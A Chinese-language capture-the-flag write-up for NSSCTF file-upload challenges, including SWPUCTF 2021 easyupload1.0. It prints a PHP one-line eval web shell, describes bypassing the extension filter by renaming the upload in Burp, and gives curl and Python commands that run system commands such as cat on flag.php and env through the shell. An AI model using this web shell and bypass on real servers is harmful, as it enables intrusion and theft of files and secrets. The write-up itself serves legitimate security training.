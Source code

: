 或者可以使用python来构造请求

```
import requests

url = "http://node4.anna.nssctf.cn:28791/upload/one.phtml"
data = {"cmd": "system('cat /app/flag.php"}

response = requests.post(url, data=data)

print(response.text)
```

或者可以使用其他的一些工具，例如蚁剑

# 12. [SWPUCTF 2021 新生赛]easyupload1.0

进入网站发现是一个文件上传的页面

尝试上传一句话木马（one1.0.php)

```
<?php
@eval($_POST['cmd']);
?>
```

发现上传失败，尝试使用其他php文件的后缀（php3，phtml)，发现都被过滤了尝试将后缀改为.jpg

发现可以上传但是jpg文件没用，所以在bs上对上传操作进行抓包，并将jpg后缀改为php

![1744038937824](image/NSS/1744038937824.png)

显示上传成功，需要getshell来寻找flag

通过linux的bash命令行来getshell

```
curl -X POST -d "cmd=system('pwd');"http://node7.anna.nssctf.cn:27834/upload/one1.0.php
curl -X POST -d "cmd=system('ls /app');"http://node7.anna.nssctf.cn:27834/upload/one1.0.php
发现flag.php
curl -X POST -d "cmd=system('cat /app/flag.php');"http://node7.anna.nssctf.cn:27834/upload/one1.0.php
cat到flag，但是发现是一个假的flag
curl -X POST -d "cmd=system('env');"http://node7.anna.nssctf.cn:27834/upload/one1.0.php
查看环境变量寻找线索
```

